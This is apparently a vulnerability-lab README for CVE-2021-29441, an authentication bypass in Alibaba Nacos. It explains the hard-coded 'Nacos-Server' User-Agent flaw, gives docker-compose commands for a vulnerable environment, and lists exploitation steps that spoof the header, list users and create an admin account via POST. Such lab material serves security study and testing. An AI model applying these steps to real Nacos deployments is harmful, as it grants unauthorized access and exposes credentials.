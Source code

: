 # Nacos Authentication Bypass(CVE-2021-29441)

[中文版本(Chinese version)](README.zh-cn.md)

Nacos is a new open source project launched by Alibaba. It is a dynamic service discovery, configuration management and service management platform that makes it easier to build cloud-native applications. Committed to helping discover, configure, and manage microservices. Nacos provides a set of simple and easy-to-use feature sets that can quickly realize dynamic service discovery, service configuration, service metadata and traffic management.

The vulnerability occurs when nacos will determine whether the requested user-agent is "Nacos-Server" when performing authentication and authorization operations, and if it is, it will not perform any authentication. The original intention of the developer is to handle some server-to-server requests. However, because the configuration is too simple, and the negotiated user-agent is set to Nacos-Server, it is directly hard-coded in the code, which leads to the emergence of loopholes. And by using this unauthorized vulnerability, an attacker can obtain sensitive information such as usernames and passwords.

Reference links:

- https://github.com/advisories/GHSA-36hp-jr8h-556f

## Vulnerable environments

Running vulnerability environment：

```
docker-compose up -d
```

After the environment is running, ports 3306, 8848, 9848 and 9555 will be open. In this exploit, we only need to use port 8848, which is the web access port.**When executing the vulnerability verification process, please visit port 8848 first to confirm it is open. In some cases the nacos service will fail to start (caused by the inability to connect to the database), you can restart the nacos service or restart all services**


```
docker-compose restart nacos

```

## Exploit Scripts
```shell

python poc.py http://target:8848

```
![](poc.png)


## Exploit

The vulnerability exploitation process is as follows.

1. Change the value of User-Agent to Nacos-Server in the request package
2. Visit http://target:8848/nacos/v1/auth/users?pageNo=1&pageSize=9 to see if the status code is 200 and if the content contains `pageItems`
3. Visit http://target:8848/nacos/v1/auth/users?username=vulhub&password=vulhub to add a new user using the POST method
4. Visit http://target:8848/nacos/v1/auth/users?pageNo=1&pageSize=9 for a list of existing users
5. Visit http://target:8848/nacos/ and log in using the new user added (vulhub/vulhub)

### Detecting the presence of vulnerabilities

![](1.png)

After adding the Header header, visit `http://target:8848/nacos/v1/auth/users?pageNo=1&pageSize=9` to see if the return value is 200 and if the content contains `pageItems`.

### Adding a new user

![](2.png)

After adding the Header header use **POST** to request `http://target:8848/nacos/v1/auth/users?username=vulhub&password=vulhub` to add a new user with the account and password of vulhub


### Login using the newly created account

![](3.png)
